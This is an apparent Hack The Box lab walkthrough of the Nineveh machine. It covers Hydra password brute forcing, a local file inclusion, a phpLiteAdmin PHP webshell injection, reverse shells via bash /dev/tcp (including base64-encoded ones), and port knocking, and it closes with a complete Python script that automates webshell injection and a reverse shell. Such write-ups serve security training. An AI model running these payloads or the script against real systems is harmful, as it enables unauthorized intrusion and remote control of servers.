

This is a medium box Linux. 

**Have a good time!**

# Introdution

[https://app.hackthebox.com/machines/Nineveh](https://app.hackthebox.com/machines/Nineveh)

* **IP:** 10.10.10.43

## Diagram



# Enumeration

First step is to enumerate the box. For this we’ll use `nmap`.

```bash
ports=$(sudo nmap -p- -Pn --min-rate=1000 -T4 10.10.10.43 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//) && sudo nmap -Pn -sC -sV -p $ports 10.10.10.43
```


## Port 80 (HTTP)

There’re a simple page.


### Fuzzing Diretório WEB

```bash
**gobuster dir -u http://10.10.10.43/ -w /usr/share/wordlists/dirb/big.txt -t 100 -e --no-error -r -f -x php**
```


```bash
**gobuster dir -u http://10.10.10.43/department/ -w /usr/share/wordlists/dirb/big.txt -t 100 -e --no-error -r -f -x php**
```


### /info.php


### /department/login.php


The login function is not vulnerable to SQL injections.

But there’re a flaw which allows for username enumeration. This can be observed after entering invalid credentials / usernames. When you try to login with a name that doesn’t exist (for example 0xetern4lw0lf) you will get a message saying: invalid username.


Now using valid username as admin:


The username admin is a valid user, I'll try to brute force the password with a rockyou.txt.

```bash
hydra 10.10.10.43 -l admin -P /usr/share/wordlists/rockyou.txt http-post-form "/department/login.php:username=^USER^&password=^PASS^:Invalid\ Password\!"
```


In 10 min broke the password.

> User: **admin**
>
> Pass: **1q2w3e4r5t**


There’re a page in construction. In field “Notes”


There’re some mensages interesting:

1. First message reveal something about login page.
2. Second reveal something about some secret folder that I haven't found yet.
3. Third reveal about the db that already i explored.

After some tests LFI in parameter `notes`, 

`http://10.10.10.43/department/manage.php?notes=files/ninevehNotes.txt/../../../test`


I found a vulnerability:

`http://10.10.10.43/department/manage.php?notes=files/ninevehNotes.txt../../../../../../../etc/passwd`


## Port 443 (HTTPS)

There’re a simple page with an image


Analyzing the image nothing was found.

### Fuzzing Directory

```bash
**gobuster dir -k -u https://10.10.10.43/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 100 -e --no-error -r -f -x php**
```


### /secure_notes

It was found  a image.


Analyzing the a image is found a private key. But there’re not port 22 (SSH) open. Possible attack vector.


### /db/


Brute-force

```bash
hydra 10.10.10.43 -s 443 -l 0xEtern4lW0lf -P /usr/share/wordlists/rockyou.txt https-post-form "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect\ password"
```


> Pass: **password123**
> 


There’re only test database.

### Remote PHP Code Injection

[https://www.exploit-db.com/exploits/24044](https://www.exploit-db.com/exploits/24044)

Following the instruction:

1. Create database:
    
    
    
2. I’ll click on the new db to switch to it, and create a table with 1 text field with a default value of a basic PHP webshell:
    
    
    
    
    
    
    
3. I can see the path to the new .php webshell in `/var/tmp`:
    
    
    
    But it's necessary a LFI to access that page from browser.
    
    Now We has a entrypoint.
    

# Exploration

## Getting the Shell

We injected a webshell into `/var/tmp`.

Let’s use the LFI found to execute the webshell.

`http://10.10.10.43/department/manage.php?notes=/ninevehNotes/../var/tmp/0xEtern4lW0lf.php&cmd=id`


```bash
**/bin/bash -i >& /dev/tcp/10.10.14.7/443 0>&1**
```

```bash
L2Jpbi9zaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC43LzQ0MyAwPiYx
```

```bash
10.10.10.43/department/manage.php?notes=/ninevehNotes/../var/tmp/0xEtern4lW0lf.php&cmd=echo+L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjcvNDQzIDA+JjEK|base64+-d|bash

cmd=echo+"L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjcvNDQzIDA+JjE="+|+base64+-d+|+bash"
```


```bash
**/bin/sh -i >& /dev/tcp/10.10.14.7/4444 0>&1**
```

Was encode the payload in base64 and inserted in URL.

```bash

****10.10.10.43/department/manage.php?notes=/ninevehNotes/../var/tmp/0xEtern4lW0lf.php&cmd=echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjcvNDQ0NCAwPiYxCg==|base64 -d|bash
```


**HABEMUS SHELL!!!**

# Post Exploration

## Update Shell

```bash
/usr/bin/python3.5 -c "import pty; pty.spawn('/bin/bash')"

**export SHELL=bash;export TERM=xterm-256color**
```

****

## Www-data → Amrois

Previously an SSH private key was found, but port 22 is not open externally and there are the service ssh active.


Possibly the machine uses the `Port Knocking` technique, which means that we must “knock” on some specific ports to open port 22. Let's find out!

```bash
/etc/init.d/knockd status
```


```bash
cat /etc/knockd.conf
```


We can see that there’re the service running and the port sequence for open the port 22 is `571, 290, 911`.

Now we can to use the port sequence for open the port 22.

### Port Knocking


```bash
nmap  10.10.10.43 -p 22
knock 10.10.10.43 571 290 911
nmap 10.10.10.43 -p 22
```

or

```bash
for x in 22 571 290 911 22; do nmap -Pn --max-retries 0 -p $x nineveh.htb; done
```

# Get Shell - Script Automation

```python
#! /usr/bin/env python3

#### Title: Exploit Phpliteadmin 1.9.3 - Remote PHP Code Injection and Local File Inclusion (LFI)
#### Description: GetShell - Nineveh - HTB
#### Author: 0xEtern4lW0lf
#### Created: 03 Jan 2023

#### ========= MODULES =========

# hardler
import socket, telnetlib
from threading import Thread

# http lib
import requests, urllib, urllib3
urllib3.disable_warnings()

import argparse
import sys
import base64
import time

## ========= VARIABLE =========

#### COLORS ####
RED = "\033[1;91m"
YELLOW = "\033[1;93m"
BLUE = "\033[1;94m"
GREEN = "\033[1;92m"
END = "\033[1;m "

## Set proxy [OPTIONAL]
#proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}

## ========= FUNCTION =========

## Banner
def banner():
  EwLogo = f"""

⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣀⡀⠀⠀⠀⠀⠀⠀⣀⠠⠤⢤⣤⣶⣴⣦⣤⣤⣀⡀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠘⣿⣿⣿⣿⣿⣿⣿⣿⣿⡞⠀⠀⠀⠀⠀⠀⠀⠀⠉⠉⠛⠻⢿⣷⣄⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠈⠻⣄⠈⠉⠛⠿⠟⠉⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠐⡯⣿⣷⡄⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠰⢾⣿⣿⠟⠋⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠘⢌⡻⢿⡆⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⠝⣄⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠘⣷⡌⠿⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⣴⠋⠀⣸⣧⣄⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠸⣿⡄⠁
⠀⠀⠀⠀⠀⠀⠀⢀⣾⣏⣴⠟⢻⣿⠟⠛⠶⡄⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⠀⢻⣿⡀
⠀⠀⠀⠀⠀⠀⠀⣼⣿⣿⣿⣴⠿⠃⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢹⢳⣜⣿⡇
⠀⠀⠀⠀⠀⣠⣾⣿⠟⠋⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢸⡇⢿⣿⡇
⠀⠀⢀⣤⣾⡿⠋⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢸⣿⠸⣿⠇
⢀⣴⣿⡿⠋⠀⠀⠀⠀⠀⣀⣤⣶⣶⣦⣄⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣀⠀⠀⢸⣿⡄⡿⠀
⢺⣿⡏⠀⠀⠀⠀⢀⣤⣾⣿⠿⠛⠋⠙⠻⣇⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⡝⣦⠀⣸⣿⡧⠃⠀
⠀⠈⠉⠀⢠⣤⣶⣿⡿⠋⠀⠀⠀⠀⠀⡀⠈⠂⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢠⡇⣿⣷⣿⣿⠀⠀⠀
⠀⠀⠀⠀⠀⠈⠉⠉⠁⠀⠀⠀⠀⢀⡜⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⡆⠀⠀⣼⡇⣾⣿⣿⠇⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⣴⠏⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⣴⢻⣿⣀⣾⣿⢡⣿⡿⠋⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣰⣿⠏⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣠⣴⡿⢣⣿⣿⣿⣿⣣⡿⠋⠁⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⣰⣿⡿⠀⠀⠀⠀⠀⣀⣠⣤⣴⣶⣿⠿⣋⣴⣿⣿⠿⠛⠉⠁⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⢀⣿⣿⡇⠀⢀⣠⣶⣿⣿⡿⠟⠋⠉⠐⠊⠉⠉⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⢸⣿⣿⣇⣴⣿⣿⡿⠟⠉⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠸⣿⣿⣿⣿⣿⠋⠀⠀⠀⠀⠀{RED}#--------------------------------------------#
 _____  _                         ___  _  _    _  _____  _   __ 
|  ___|| |                       /   || || |  | ||  _  || | / _|
| |__  | |_   ___  _ __  _ __   / /| || || |  | || |/' || || |_ 
|  __| | __| / _ \| '__|| '_ \ / /_| || || |/\| ||  /| || ||  _|
| |___ | |_ |  __/| |   | | | |\___  || |\  /\  /\ |_/ /| || |  
\____/  \__| \___||_|   |_| |_|    |_/|_| \/  \/  \___/ |_||_|  
                                                                
#----------------------------------------------------------------# 
    
    Author: {GREEN}0xEtern4lW0lf{END}                           
    {RED}Site: {BLUE}https://0xetern4lw0lf.github.io/{END}

    FOR EDUCATIONAL PURPOSE ONLY.

  """
  return print(f'{BLUE}{EwLogo}{END}')

# Pretty loading wheel
def loading(spins):

    def spinning_cursor():
        while True:
            for cursor in '|/ -\\':
                yield cursor

    spinner = spinning_cursor()
    for _ in range(spins):
        sys.stdout.write(next(spinner))
        sys.stdout.flush()
        time.sleep(0.1)
        sys.stdout.write('\b')

#### Weaponization and Attack

## Set the handler
def handler(lport,target):
    print(f"\n{BLUE}[+] LISTEN: {YELLOW}Starting handler on {GREEN}{lport} {BLUE}[+]{END}")
    tn = telnetlib.Telnet()
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(("0.0.0.0",lport))
    s.listen(1)
    conn, addr = s.accept()
    loading(8)
    print(f"{BLUE}[+] LISTEN: {YELLOW}Receiving connection from {GREEN}{target} {BLUE}[+]{END}")
    tn.sock = conn
    print(f"\n{BLUE}[+] SUCCESS: {GREEN}HABEMUS SHELL! {BLUE}[+]{END}\n")
    tn.interact()

## Function encode Base64
def encodeB64(strg):
    return base64.b64encode(strg.encode()).decode()

## Create the payload
def createPayload(lhost,lport):
    print(f"\n{BLUE}[+] PAYLOAD: {YELLOW}Creating the payload! {BLUE}[+]{END}")
    global payload
    payload = f"bash -i >& /dev/tcp/{lhost}/{lport} 0>&1"
    payload = str(encodeB64(payload))

    loading(8)
    print(f"{BLUE}[+] PAYLOAD: {YELLOW}Payload Created! {BLUE}[+]{END}")

## phpLiteAdmin vulnerability - Remote PHP Code Injection

# Session HTTP
r = requests.session()

## Let's create the phpLiteAdmin php file
def createEvilPHP(rhost):
    print(f"\n{BLUE}[+] EvilPHP: {YELLOW}Let's create the malicious PHP File! {BLUE}[+]{END}")

    # Loging as admin
    url = f"https://{rhost}:443/db/index.php"
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    data = {"password": "password123", "remember": "yes", "login": "Log In", "proc_login": "true"}
    r.post(url, headers=headers, data=data, verify=False)
    
    # Create the new database
    data = {"new_dbname": "0xEtern4lW0lf.php"}
    r.post(url, headers=headers, data=data, verify=False)
    
    # Change the database
    url = f"https://{rhost}:443/db/index.php?switchdb=/var/tmp/0xEtern4lW0lf.php"
    r.get(url, headers=headers, cookies=r.cookies, verify=False)
    
    # Create table
    url = f"https://{rhost}:443/db/index.php?action=table_create"
    data = {"tablename": "shell", "tablefields": "1", "createtable": "Go"}
    r.post(url, headers=headers, data=data, verify=False)
    
    # Inject Malicious PHP
    url = f"https://{rhost}:443/db/index.php?action=table_create&confirm=1"
    data = {"tablename": "shell", "rows": "1", "0_field": "shell", "0_type": "TEXT", "0_defaultvalue": "<?php system($_REQUEST[\"cmd\"]); ?>"}
    r.post(url, headers=headers, data=data, verify=False)

    loading(8)
    print(f"{BLUE}[+] EvilPHP: {YELLOW}Evil PHP injected! {BLUE}[+]{END}")

# Let's login as admin on the app
def loginAdmin(rhost):
    print(f"\n{BLUE}[+] LOGIN: {YELLOW}Let's login as admin! {BLUE}[+]{END}")
    url = f"http://{rhost}:80/department/login.php"
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    data = {"username": "admin", "password[]": "123"}
    r.post(url, headers=headers, data=data, verify=False)

    loading(8)
    print(f"{BLUE}[+] LOGIN: {YELLOW}Logged {GREEN}SUCCESSFULLY! {BLUE}[+]{END}")

def getShell(rhost,payload):
    print(f"\n{BLUE}[+] SHELL: {YELLOW}Getting the SHELL! {BLUE}[+]{END}")
    payload = urllib.parse.quote(payload, safe='')
    url = f"http://{rhost}:80/department/manage.php?notes=/ninevehNotes/../var/tmp/0xEtern4lW0lf.php&cmd=echo {payload}|base64 -d | bash"
    headers = {"Upgrade-Insecure-Requests": "1"}
    r.get(url, headers=headers, cookies=r.cookies)

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser(description='HackTheBox Nineveh AutoShell - 0xEtern4lW0lf')
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-li', '--localip', help='Local ip address or hostname', required=True)
    parser.add_argument('-lp', '--localport', help='Local port to receive the shell', required=True)

    args = parser.parse_args()

    rhost = args.target
    lhost = args.localip
    lport = args.localport

    # Set up the handler
    thr = Thread(target=handler,args=(int(lport),rhost))
    thr.start()
    loading(3)
    
    # Create the payload
    createPayload(lhost,lport)
    loading(3)
    
    # Create php file
    createEvilPHP(rhost)
    loading(3)

    # Login as admin
    loginAdmin(rhost)
    loading(3)

    # Get Reverse shell
    getShell(rhost,payload)
    loading(3)

if __name__ == '__main__':
    banner()
    main()
```

 More scripts in [https://github.com/0xEtern4lW0lf](https://github.com/0xEtern4lW0lf).